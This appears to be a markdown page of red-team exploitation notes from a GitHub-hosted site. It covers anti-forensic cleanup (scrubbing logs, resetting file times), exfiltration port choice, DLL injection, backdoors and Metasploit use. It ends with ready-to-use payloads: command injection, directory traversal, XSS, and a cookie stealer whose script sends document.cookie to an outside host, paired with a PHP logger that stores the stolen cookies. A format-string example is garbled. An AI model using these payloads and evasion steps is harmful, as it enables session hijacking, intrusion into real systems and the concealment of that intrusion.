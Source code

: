 +++
title = "Exploitation"
weight = 2
+++

## The Basics

* Determining potential security posture
	* Are they using an up to date OS?
	* What kind of personal security products are installed?
	* Are they using a free antivirus tool, or are they using an enterprise-based commercial antivirus tool?
	* Is the system patched up to date?
	* Is there a bunch of bloatware? Or is the box rather Spartan, as a corporate load should typically be?
* Tradecraft Rules
	1. Rule #1: Do No Harm
		* Never leave a target's equipment less secure than when you found it
		* Do not patch vulnerable software or install defensive tools such as wireshark or nmap
		* Never knowingly disrupt a target's network or system without express permission from a competent authority
		* This is not your personal computer.
	2. Rule #2: No packets directly between source and target
	3. Rule #3: Have a clue
		* Always have a plan and a goal
		* Execute your operation quietly
		* Know when to get help
	4. Rule #4: Do not scan everything under the Sun
		* Noise kills
	5. Rule #5: Upload wisely
		* Upload only what you need
		* Use single binaries
		* Do not use public packages
	6. Rule #6: Clean your logs
		* Do not remove every log
		* Clean only entries related to your activity
		* Reset file time to last entry
	7. Rule #7: Practice and don't run untested tools
		* Never practice on a live system
		* Review all code before running, even in a lab
	8. Rule #8: Situational Awareness
		* Always be concerned about compromising your tools, techniques, and methods
	9. Rule #9: Check yourself, before you wreck yourself
		* Check your ego at the door
		* Ask for help if you need it
* Exfiltration Strategies
	* Port targeting
		* Blend in with environment
	* Redirector selection
		* Ports should make sense (80, 443, 25, etc)
		* Firewalls, proxies, and other systems may affect traffic on these ports
		* Avoid these ports:
			* 135 & 445 (NetBIOS, SMB)
			* 1433 and other SQL ports
			* 6667 (IRC)
			* 666, 1337, 4444, 6666, 31337, 12345 (Known malware, hacking activity)
		* Consider geographic factors of redirector
	* File manipulation
		* Match the modified time to other files
		* Name your tools to resemble normal processes
	* Cleaning up
		* Remove temporary files, tools, tool generated logs, etc
		* Did you schedule a job in Windows? If so, it was probably logged. Delete those logs.
		* Did you substitute user (su) on a UNIX system? If so, it was probably logged. Remove those entries.
		* Did you cause a core dump or a mini-dump? If so, delete those dump files.
		* Are you responsible for any hanging processes? If so, kill those processes.
		* Clean the prefetch directory
* Exploitation through tunnels
	* Additional considerations need to be taken into account, such as latency
	* Not all tools will work through a tunnel the same way
	* Don't forget to change "RPORT" to the tunnel redirector!
* Privilege Escalation Rules to remember
	* Never escalate to a critical process unless you know what you are doing
	* Know your privileges (flags)
	* User processes go away when a user logs off
* Shellcode
	* Written in Assembly code
	* Techniques
		* Find socket
			* Uses an existing connection between you and the target
		* Reverse shell
		* Port binding
		* Command execution
			* Useful when you do not need a network connection
		* File transfer
		* Multi-stage
		* Syscall proxy
			* Requires few processes and network connections
			* Allows access to core OS functions
			* Executes in a loop, strings together requests
			* Usually part of a framework type of application
		* Process injection
* Code Injection
	* Overflow Types
		* Buffer
			* Stack
			* Heap
		* Integer
		* Off-by-one Error
	* Heap Spraying
		* Not an exploit method
		* Payload delivery technique
	* DLL Injection
		* Windows Hooking
			* Calls code when a specific event occurs
			* Commonly used for Keylogging
		* AppInit Key
			* Runs with user32.dll
		* CreateRemoteThread Function
			* Injects DLL into running process
		* Reflective DLL Injection
			* Injects a loader in the process
			* Advantages:
				* Not registered or listed in process modules
				* No hooking
				* Fileless
			* Can be found in memory forensics
		* DLL Path Hijacking
			* Search-order hijacking
	* Countermeasures
		* Endpoint Security - Hook into functions typically used for injection
		* Code signing
* Backdoor Methods
	* Batch files/init scripts
	* Autorun keys
	* AppInit Key
		* DLL injection
	* Trojan Application
	* Install as a Service
	* Load as a driver
* Metasploit
	* Some local commands can be ran from the framework console
	* /usr/share/metasploit-framework/
	* Payloads
		* Bind - Shell connects directly to victim
		* Reverse - Victim calls back to you
	* "DisablePayloadHandler"
		* Prevents MS from automatically attempting to connect the payload
		* You can then use exploit/multi/handler to "call forward"
* Masquerades
	* Logging into a remote access service with valid credentials that are not yours
* Implants
	* Backdoor
		* Requires the operator to connect to it
		* May require 2 tunnels, both a forward and reverse. One for the trigger packet and one for the callback.
	* Beacon
		* Periodically attempts to initiate a connection to the operator


## Some Easy Exploits

### Non-secure C

Takes advantage of a poorly written application.

First %s is taken as input then our code executes independently. Using this method
you could print sensitive values that may only be normally accessible by the application.

```
%s%sprintf(password)%s
```

### Web

#### Code Injection (for input that will be processed directly in a shell)

```
<normal input> & <command>
```

### IIS 6, circumvent file extension validation

Add `;.jpg` (or other valid ext) to file being uploaded

### PHP Directory Traversal

```
index.php?page=./../../../file
```

#### Cookies

```
<script>window.location='http://10.1.1.1/?'+document.cookie;</script>
```

#### Simple Cookie Stealer

##### Host

```
<?php
$cookie=$_GET["cookie"];
$log=fopen("log.txt", “a”);
fwrite($log, $cookie ."\n");
fclose($log);
?>
```

##### Phish

```
[url]=<script>window.location='my_url/cookie_stealer.php?cookie='%2bdocument.cookie;</script>
```

#### XSS

1. Find vulns in page such as `<url>?search=`
2. Test input for sanitation
3. Exploit!

```
<script>[command]("[code]");</script>
Ex: http://www.google.com/page.html?default=<script>alert("Hacked!");</script>
```
